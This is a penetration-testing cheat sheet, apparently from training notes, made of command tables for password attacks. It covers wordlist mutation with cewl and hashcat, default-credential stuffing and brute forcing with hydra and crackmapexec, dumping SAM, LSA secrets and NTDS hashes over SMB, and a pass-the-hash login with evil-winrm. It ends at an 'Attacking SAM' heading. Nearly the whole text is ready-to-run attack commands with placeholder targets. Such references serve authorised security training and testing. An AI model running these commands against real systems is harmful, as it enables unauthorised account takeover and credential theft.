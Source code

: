 ### Password Mutations

| **Command**| **Description**|
|-|-|
| `cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist` | Uses cewl to generate a wordlist based on keywords present on a website. |
| `hashcat --force password.list -r custom.rule --stdout > mut_password.list` | Uses Hashcat to generate a rule-based word list.             |
| `./username-anarchy -i /path/to/listoffirstandlastnames.txt` | Users username-anarchy tool in conjunction with a pre-made list of first and last names to generate a list of potential username. |
| `curl -s https://fileinfo.com/filetypes/compressed \| html2text \| awk '{print tolower($1)}' \| grep "\." \| tee -a compressed_ext.txt` | Uses Linux-based commands curl, awk, grep and tee to download a list of file extensions to be used in searching for files that could contain passwords. |

### Password Reuse / Default Passwords

| **Command**| **Description**|
|-|-|
| **Credential Stuffing** | |
| [DefaultCreds-cheat-sheet](https://github.com/ihebski/DefaultCreds-cheat-sheet) | For Credential Stuffing |
| `hydra -C <user_pass.list> <protocol>://<IP>` | Credential Stuffing - Hydra Syntax |
| [Router Default Creds](https://www.softwaretestinghelp.com/default-router-username-and-password-list/) | |

### Remote Password Attacks

| **Command**| **Description**|
|-|-|
| `crackmapexec winrm <ip> -u user.list -p password.list` | Uses CrackMapExec over WinRM to attempt to brute force user names and passwords specified hosted on a target. |
| `crackmapexec smb <ip> -u "user" -p "password" --shares` | Uses CrackMapExec to enumerate smb shares on a target using a specified set of credentials. |
| `hydra -L user.list -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a user list and password list to attempt to crack a password over the specified service. |
| `hydra -l username -P password.list <service>://<ip>`       | Uses Hydra in conjunction with a username and password list to attempt to crack a password over the specified service. |
| `hydra -l user.list -p password <service>://<ip>`       | Uses Hydra in conjunction with a user list and password to attempt to crack a password over the specified service. |
| `hydra -C <user_pass.list> ssh://<IP>`                       | Uses Hydra in conjunction with a list of credentials to attempt to login to a target over the specified service. This can be used to attempt a credential stuffing attack. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam` | Uses CrackMapExec in conjunction with admin credentials to dump password hashes stored in SAM, over the network. |
| `crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa` | Uses CrackMapExec in conjunction with admin credentials to dump lsa secrets, over the network. It is possible to get clear-text credentials this way. |
| `crackmapexec smb <ip> -u <username> -p <password> --ntds` | Uses CrackMapExec in conjunction with admin credentials to dump hashes from the ntds file over a network. |
| `evil-winrm -i <ip>  -u  Administrator -H "<passwordhash>"` | Uses Evil-WinRM to establish a Powershell session with a Windows target using a user and password hash. This is one type of `Pass-The-Hash` attack. |

### Attacking SAM
